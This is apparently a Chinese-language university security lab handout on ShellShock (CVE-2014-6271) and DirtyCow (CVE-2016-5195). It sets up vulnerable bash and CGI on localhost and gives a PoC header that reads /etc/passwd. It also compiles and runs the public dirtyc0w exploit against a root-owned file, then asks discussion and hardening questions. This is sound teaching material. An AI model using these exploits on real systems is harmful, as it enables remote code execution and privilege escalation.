 # Lab 5 Linux DirtyCow and ShellShock

## ShellShock
CVE-2014-6271 https://shellshocker.net/
> 描述引用来源：[https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
> 2014年9月24日bash被公布存在远程代码执行漏洞，漏洞会影响目前主流的操作系统平台，包括但不限于Redhat、CentOS、Ubuntu、Debian、Fedora 、Amazon Linux 、OS X 10.10等平台，此漏洞目前虽然有部分系统给出了补丁，但因为漏洞修补的时效性，及漏洞的范围之大，且还存在一些没有发布补丁的问题，所以仍被定义为高危漏洞。
> bash引自维基百科的描述为：＂bash，Unix shell的一种。1989年发布第一个正式版本，原先是计划用在GNU操作系统上，但能运行于大多数类Unix系统的操作系统之上，包括Linux与Mac OS X v10.4都将它作为默认shell。它也被移植到Microsoft Windows上的Cygwin与MinGW。

当apache使用CGI处理HTTP请求时，它会将请求中的某些信息复制到环境变量列表中，然后将请求转发给处理程序。 如果处理程序是一个Bash脚本，或者如果它使用syscall执行某个脚本，Bash将接收由服务器传递的环境变量，并按上述方式处理它们。 这就提供了一种通过构造HTTP请求来触发ShellShock漏洞的场景。

### 环境搭建
下载并编译存在漏洞版本的bash
```bash
# Please ensure to run the following command with root privilege.
apt update && apt -y install wget build-essential bison autoconf
mkdir -p /usr/local/src/cve-2014-6271 
wget -qO- https://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz | tar zx -C /usr/local/src/cve-2014-6271 --strip-components=1
cd /usr/local/src/cve-2014-6271 && ./configure --prefix=/usr/local/bash-4.3.0
make && make install
rm -rf /usr/local/src/cve-2014-6271

# Install apache2 and enable CGI mod for your Linux.
apt install apache2 && a2enmod cgi
cp ./safe.cgi ./vuln.cgi /usr/lib/cgi-bin
systemctl start apache2.service
```

在我们的`vuln.cgi`和`safe.cgi`中分别是使用未修复和已修复ShellShock的bash。

我们分别使用curl 访问如下两个CGI的页面

```bash
curl http://127.0.0.1/cgi-bin/vuln.cgi
curl http://127.0.0.1/cgi-bin/safe.cgi
```

如果返回类似如下的结果，说明环境配置成功

```bash
$ curl 127.0.0.1/cgi-bin/vuln.cgi
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 146
Content-Type: text/html
Date: Sun, 27 May 2018 18:05:42 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.33 (Debian)
Vary: Accept-Encoding

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Bash ShellShock</title>
</head>
<body>
<p>
Hello world
</p>
</body>
</html>
```

Q1:使用如下命令访问vuln.cgi所在的页面，查看response。

```bash
curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' http://127.0.0.1/cgi-bin/vuln.cgi -I
```

Q2:尝试解释Q1中PoC。

Q3:还有没有其他场景可能会导致ShellShock漏洞，讨论ShellShock产生的原因。




## DirtyCow
CVE-2016-5195 https://dirtycow.ninja/

> 描述引用来源：https://github.com/dirtycow 
> A race condition was found in the way the Linux kernel’s memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.
> Linux内核的内存子系统在处理copy-on-write（COW）时出现竞争条件，导致私有只读存储器映射被破坏。
> The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016. 
> 这个bug自Linux 2.6.22(发布于 2007 年)存在至今，并于2016年10月18日被修复。

从描述中，我们可以了解到这是一个存在于内核的条件竞争的漏洞，因此我们可以尝试利用这个漏洞来达到提权的目的。

首先请检查你的实验环境的内核版本

```bash
uname -a
Linux ubuntu 3.13.0-96-generic #143-Ubuntu SMP Mon Aug 29 20:15:20 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
接下来创建一个只有root可读写，而低权限只能读不能写的文件

```bash
test@ubuntu:~$ echo ABCDEFGHIJKLMN > target.txt
test@ubuntu:~$ cat target.txt 
ABCDEFGHIJKLMN
test@ubuntu:~$ chmod 644 target.txt
test@ubuntu:~$ sudo chown root:root target.txt
test@ubuntu:~$ ls -al target.txt 19 May 28 22:03
```

此时，当你尝试用低权限账户去改写该文件时，会发现返回Permission denied
```bash
test@ubuntu:~$ echo aaaaaaaaa > target.txt
bash: target.txt: Permission denied
```

编译利用代码

```bash
test@ubuntu:~$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
test@ubuntu:~$ gcc -pthread dirtyc0w.c -o dirtyc0w
```

执行dirtyc0w, 你会发现文件成功被修改

```bash
test@ubuntu:~$ ./dirtyc0w target.txt abcdefghijklmn
test@ubuntu:~$ cat target.txt
abcdefghijklmn
```

Q1: 复现DirtyCow的利用过程
Q2: 该漏洞可能造成哪些影响
Q3: 如果你作为一家公司的运维，当该漏洞被纰漏并且Linux内核还未修复该漏洞，你该如何加固你的服务器？
